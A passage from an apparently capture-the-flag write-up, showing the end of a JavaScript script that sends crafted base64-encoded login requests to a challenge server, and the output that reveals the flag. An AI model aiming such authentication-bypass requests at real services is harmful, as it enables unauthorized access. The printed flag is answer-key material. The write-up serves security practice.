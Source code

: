 ```js
    let response3 = await fetch("http://challs.nusgreyhats.org:33336/api/login", {
        "headers": { "content-type": "application/x-www-form-urlencoded" },
        "body": `password=${btoa(password)}&username=${btoa("xyz?")}`,
        "method": "POST"
    });
    json = await response3.json()
    console.log(json)
}
main()
```

{% ccb terminal:true lang:js %}
{ err: false }
{ err: false, msg: 'grey{fr13nd5h1p_3nd3d_w17h_my5ql}' }
{% endccb %}